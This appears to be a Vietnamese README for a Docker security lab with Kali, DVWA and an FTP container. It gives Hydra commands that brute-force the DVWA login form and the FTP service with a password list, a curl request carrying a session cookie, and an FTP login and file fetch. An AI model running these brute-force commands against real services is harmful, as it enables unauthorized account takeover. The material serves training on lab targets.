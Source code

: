 # setup
+ chạy docker: docker compose up -d
+ vào môi trường dòng lệnh kali linux `docker exec -it kali_container /bin/bash`

# brute-force với http Page
+ truy cập vào trang web `http://localhost:8080/` setup page
+ curl kiểm tra request: curl -H "Cookie: security=low; PHPSESSID=gaqp3n4hhqo3fqv8mf7ibt1es1" "http://172.23.0.4/vulnerabilities/brute/?username=admin&password=123&Login=Login"
+ lệnh `hydra -l admin -P home/kali_data/passwords.txt 'http-get-form://dvwa_container/vulnerabilities/brute/index.php:username=^USER^&password=^PASS^&Login=Login:H=Cookie:security=low; PHPSESSID=<cookie_id>:Username and/or password incorrect.'`

+ hướng dẫn: https://medium.com/@hamidullahbayram/using-hydra-on-login-pages-with-a-right-method-dvwa-training-1e85e8d4f5fd

# brute-force với ftp:
+ lệnh `hydra -l user -P home/kali_data/passwords.txt ftp_container ftp`.
+ Đăng nhập Ftp server: `lftp ftp://user:strongpassword123@ftp_container`
+ Lấy file từ server ftp: `mget index.html`

